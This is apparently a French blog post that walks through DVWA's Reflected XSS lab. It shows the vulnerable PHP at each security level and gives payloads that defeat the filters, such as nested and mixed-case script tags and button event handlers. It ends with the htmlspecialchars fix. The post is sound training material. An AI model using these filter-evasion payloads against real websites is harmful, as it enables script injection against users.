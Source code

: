 ```yaml
---
layout: post
title: DVWA - XSS réfléchi
subtitle: Reflected XSS - Solutions
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [DVWA, XSS, solutions]
comments: false
---
```


**Voici quelques solutions (liste non exhaustive) pour la catégorie "Reflected XSS" de Damn Vulnerable Web App, DVWA**

## 0x00 - XSS réfléchi 

Une vulnérabilité _Refflected_ _XSS_ apparaît lorsque des données fournies par un client web sont utilisées telles quelles par les scripts du serveur pour produire une page de résultats. Ces données non vérifiées peuvent être utilisées pour injecter du code dans la page dynamique reçue par le navigateur client. [1][2]

## 0x01 - Security level: Low

Code source:

~~~
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
~~~

Il n'y a aucune mesure de sécurité.

**Payload:**

~~~
<script>alert('xss');</script>
~~~

Red Team: 1 - Blue Team: 0

## 0x02 - Security level: medium

Code source:

~~~
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
~~~

Mesure de sécurité mise en place: effacer la balise <script> 

~~~
$name = str_replace( '<script>', '', $_GET[ 'name' ] );
~~~

_Solution:_ utiliser un autre type de balise que <script> ou modifier son format

**Payload:**

~~~
#1
<sc<script>ript>alert('xss');</script>
#2
<sCriPt>alert('xss');</sCriPt>
~~~

Red Team: 1 - Blue Team: 0

## 0x03 - Security level: High

Code source:

~~~
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
~~~

Mesure de sécurité mise en oeuvre: effacer tout contenu ou le mot script apparait

~~~
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
~~~

_Solution:_ utiliser une autre forme de balise

**Payload:**

~~~
#1
<button onmouseover="alert('xss');">xss</button>
#2
<button onclick="alert('xss');">xss</button>
~~~

Red Team: 1 - Blue Team: 0

## 0x04 - Security level: impossible

Code source: 

~~~
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
~~~

Mesure de sécurité mise en oeuvre: utilisation de _htmlspecialchars_

~~~
$name = htmlspecialchars( $_GET[ 'name' ] );
~~~

A priori, pas de solution possible. Le site est sécurisé.

Red Team: 0 - Blue Team: 1

**Références:**

[1] Cross-site scripting, [https://fr.wikipedia.org/wiki/Cross-site_scripting#XSS_r%C3%A9fl%C3%A9chi_(ou_non_permanent)](https://fr.wikipedia.org/wiki/Cross-site_scripting#XSS_r%C3%A9fl%C3%A9chi_(ou_non_permanent))

[2] OWASP, Cross-site Scripting (XSS), [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

[3] OWASP, XSS Filter Evasion Cheat Sheet, [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)



